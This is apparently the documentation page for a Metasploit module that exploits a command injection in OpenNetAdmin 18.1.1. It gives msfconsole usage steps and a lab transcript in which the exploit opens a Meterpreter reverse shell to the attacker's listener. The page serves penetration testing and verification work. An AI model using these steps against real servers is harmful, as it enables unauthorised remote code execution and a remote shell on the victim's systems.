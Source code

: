 ## Description

OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors.
This module exploits a command injection in OpenNetAdmin. The vulnerability exists on the `tooltips.inc.php` component, due to the insecure usage of the `shell_exec()` PHP function.

## Vulnerable Application

This module has been tested with [OpenNetAdmin 18.1.1](https://github.com/opennetadmin/ona/releases/tag/v18.1.1)

## Setup

https://github.com/opennetadmin/ona/wiki/Install

## Verification

Launch metasploit and set the appropriate options:
>
> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/unix/webapp/opennetadmin_ping_cmd_injection`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set VHOST <hostname>`
> * [ ]  `exploit`

## Options

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is set as optional.

## Scenarios

 Tested OpenNetAdmin 18.1.1 on Ubuntu 19.10 x64

```
msf > use exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf exploit(opennetadmin_ping_cmd_injection) > set RHOSTS 172.16.172.152
RHOSTS => 172.16.172.152
msf exploit(opennetadmin_ping_cmd_injection) > set VHOST example.com
VHOST => example.com
msf exploit(opennetadmin_ping_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf exploit(opennetadmin_ping_cmd_injection) > exploit
[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.152:38590) at 2019-12-10 02:38:52 +0300
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Command Stager progress - 100.12% done (810/809 bytes)

meterpreter >
```
